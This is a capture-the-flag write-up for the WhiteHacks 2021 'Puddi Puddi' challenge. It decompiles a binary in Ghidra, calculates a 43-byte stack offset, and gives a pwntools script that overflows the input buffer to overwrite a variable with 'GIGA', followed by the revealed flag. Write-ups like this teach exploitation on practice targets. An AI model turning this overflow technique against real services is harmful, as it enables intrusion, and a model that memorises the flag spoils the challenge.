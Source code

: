 # Puddi Puddi
---

### Challenge Description

Why have a MEGA 🍮 when you can have a GIGA 🍮?

Interact with the service using nc chals.whitehacks.ctf.sg 20301 to get started!

[puddi.zip](https://github.com/caprinux/WhiteHacks-2021-Writeups/files/6097205/puddi.zip)


---
### Challenge 

ooooooooo first binary exploitation for whitehacks yikes

Okay so we are given a ELF binary file... and a python exploit template (wow how generous WH)

When we execute the binary file, it takes an input 

```
Do you like pudding? (Y/N) => input

PUDDI PUDDI!

PUDDI PUDDI!

SUGOKU DEKKAI...

Oops we ran out of pudding...
```

How interesting. Let's get into breaking this apart

---
### Solution

So first, we decompile the binary file in Ghidra. From the main function, we obtain the following:

```

  __isoc99_scanf(&DAT_00100d87,input);
  puts("PUDDI PUDDI!");
  sleep(1);
  puts("PUDDI PUDDI!");
  sleep(1);
  puts("SUGOKU DEKKAI...");
  sleep(1);
  iVar1 = strcmp(size,"GIGA");
  if (iVar1 != 0) {
    puts("Oops we ran out of pudding...");

```

As you can see, the input is taken by ``__isoc99_scanf(&DAT_00100d87,input);``.

If you don't understand whatever is in the line of code, it's fine because I don't undestand either, decompiled code can get pretty messy.

The main point is that the function called scanf will take an input which is called input in this case.

It then compare a variable called ``size`` which was defined further up in the function and compares it with GIGA. If true, it prints out a flag.

Now the question is how can we use our input to change the size variable to hold GIGA so that the compare will be true and the code will print out flag? Buffer overflow.

_also remember there was an exploit template that was given which was meant for buffer overflow_

In order to buffer overflow, we need to know the offset between input and size, so we can determine how many bytes we need to overflow into the size variable.

Going back to our Ghidra, we go to the stack layout and we see the following.

```
size[5]         Stack[-0xd]:5      size
char[32]        Stack[-0x38]...    input
```

With some calculations, ``0x38 - 0xd = 43`` _you can do this in python_

We find that the offset is 43. Now we can start writing our exploit.

```py
from pwn import *
HOST = 'chals.whitehacks.ctf.sg' # name of the host to connect to
PORT = 20301  # number of the port to connect to 
io = remote(HOST, PORT) # connects to the service
io.recvuntil('Do you like pudding? (Y/N) => ') # receives data until input prompt
payload = b'A'*43 # to fill up all 43 bytes of offset so we can reach overflow
payload += b'GIGA' # GIGA will overflow into size
io.sendline(payload) # sends your payload to the service
io.interactive() # allows you to interact with service manually
```

VOILA!

A beautiful ASCII picture is printed and there is our flag.

```
[+] Opening connection to chals.whitehacks.ctf.sg on port 20301: Done
[*] Switching to interactive mode
PUDDI PUDDI!
PUDDI PUDDI!
SUGOKU DEKKAI...

 .d8888b.  8888888  .d8888b.         d8888       8888888b.  888     888 8888888b.  8888888b. 8888888 888 
d88P  Y88b   888   d88P  Y88b       d88888       888   Y88b 888     888 888  "Y88b 888  "Y88b  888   888 
888    888   888   888    888      d88P888       888    888 888     888 888    888 888    888  888   888 
888          888   888            d88P 888       888   d88P 888     888 888    888 888    888  888   888 
888  88888   888   888  88888    d88P  888       8888888P"  888     888 888    888 888    888  888   888 
888    888   888   888    888   d88P   888       888        888     888 888    888 888    888  888   Y8P 
Y88b  d88P   888   Y88b  d88P  d8888888888       888        Y88b. .d88P 888  .d88P 888  .d88P  888    "  
 "Y8888P88 8888888  "Y8888P88 d88P     888       888         "Y88888P"  8888888P"  8888888P" 8888888 888

WH2021{3880fba0faf0_g1g4_pudd1}
```
